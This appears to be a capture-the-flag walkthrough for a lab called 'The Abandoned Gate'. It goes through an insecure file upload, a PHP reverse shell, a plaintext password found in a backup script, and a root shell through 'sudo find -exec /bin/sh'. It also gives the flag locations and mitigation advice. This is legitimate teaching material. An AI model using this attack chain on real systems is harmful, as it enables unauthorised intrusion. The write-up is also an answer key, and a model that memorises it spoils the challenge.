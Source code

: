# 🏰 Walkthrough: The Abandoned Gate

## 🔎 Overview
This walkthrough provides a step-by-step guide to exploiting an insecure file upload vulnerability, gaining Remote Code Execution (RCE), and escalating privileges to root.  
Additionally, the challenge includes **rabbit holes** both on the web and inside the container to mislead attackers.  

---

## 🛠 Step 1: Discovering the File Upload Vulnerability

### 🔍 1. Read the Source Code for Hints
- Viewing the source of the main page reveals a hidden comment:  
  ```
  <!-- Hey Alex, you are already 25+ but you still scared about robots !! -->
  ```
- This suggests checking `robots.txt`.

### 📂 2. Check `robots.txt`
- Navigate to:
  ```
  http://<ip>/robots.txt
  ```
- The file reveals a disallowed directory: `/s3cr3t-dev`

### 🚀 3. Access the Exposed `/s3cr3t-dev` Directory
- Navigate to:
  ```
  http://<ip>/s3cr3t-dev/
  ```
- This directory contains an **upload form**, indicating a possible file upload vulnerability.

### 🕳️ **Web Rabbit Hole**
- The source code contains misleading comments referencing a **non-existent admin panel**.
- Some fake login endpoints may be found, leading to **dead ends**.

---

## ⚡ Step 2: Remote Code Execution (RCE)

### 🔎 1. Analyze the Upload Field
- The page source reveals another hint:
  ```
  <!-- You should see deeper to get your solution -->
  ```
- Another hidden comment says:
  ```
  <!-- Alex, don't forget to remove /uploads folder too !! -->
  ```
- This suggests that the **/uploads** directory is accessible.

### 🎯 2. Exploit the File Upload
- Since the `/uploads` folder is accessible, you can attempt to upload a malicious PHP shell.
- Use [PentestMonkey's PHP reverse shell](https://www.revshells.com/) or create your own exploit.

### 🖥 3. Trigger the Shell

- After uploading the reverse shell,Check the file is uploaded or not by
```

  http://<ip>/s3cr3t-dev/uploads/
```
then access it via:
  ```
  http://<ip>/s3cr3t-dev/uploads/your-file.php
  ```
- This should provide a **reverse shell** to your listener.

---

## 🔑 Step 3: Privilege Escalation

### 🏹 Horizontal Escalation

#### 1. Enumerate the System
- Navigating to `/`, you find a directory named `/rce/`.
- Inside `/rce/`, there is a file named `backup.sh`.

#### 2. Extract User Credentials
- The `backup.sh` script contains developer Alex's password:
  ```
  ThisIsTheStrongestPasswordInTheWorld@123
  ```
- Switch to **Alex** using:
  ```sh
  su alex
  ```

#### 🕳️ **Container Rabbit Hole**
- In `/usr/var/www/`, there is a file `.secret.txt`, which contains **misleading credentials** that do not work.

### 🔝 Vertical Escalation (Root Privileges)

#### 1. Check Alex's Sudo Privileges
- Run:
  ```sh
  sudo -l
  ```
- Output shows Alex can run `find` as root.

#### 2. Exploit `find` for Privilege Escalation
- Use a known exploit from GTFOBins:
  ```sh
  sudo find . -exec /bin/sh \; -quit
  ```
- This grants a **root shell**, completing the challenge.

---

## 🏁 Flags Location

### 📍 User Flag
- Located in:
  ```
  /home/alex/user.txt
  ```
- Retrieve the contents using:
  ```sh
  cat /home/alex/user.txt
  ```

### 📍 Root Flag
- Located in:
  ```
  /root/root.txt
  ```
- Retrieve the contents using:
  ```sh
  cat /root/root.txt
  ```

---

## 🎯 Conclusion
By following these steps, you:
✅ Exploited an **insecure file upload** to gain RCE.  
✅ **Escalated privileges horizontally** by retrieving developer credentials.  
✅ **Achieved root access** using a known `find` exploit.  

---

## 🔒 Mitigation Recommendations
To prevent these vulnerabilities:  
🔹 Restrict access to sensitive directories (`robots.txt` should not expose hidden paths).  
🔹 Implement strict **file upload validation** (restrict file types and use server-side checks).  
🔹 Disable unnecessary **SUID binaries** to prevent privilege escalation.  
🔹 Use **least privilege principles** for user permissions.  

---

## 📚 References
- **GTFOBins - find exploit:** [GTFOBins](https://gtfobins.github.io/gtfobins/find/)  
- **Reverse Shell Generator:** [RevShells](https://www.revshells.com/)  
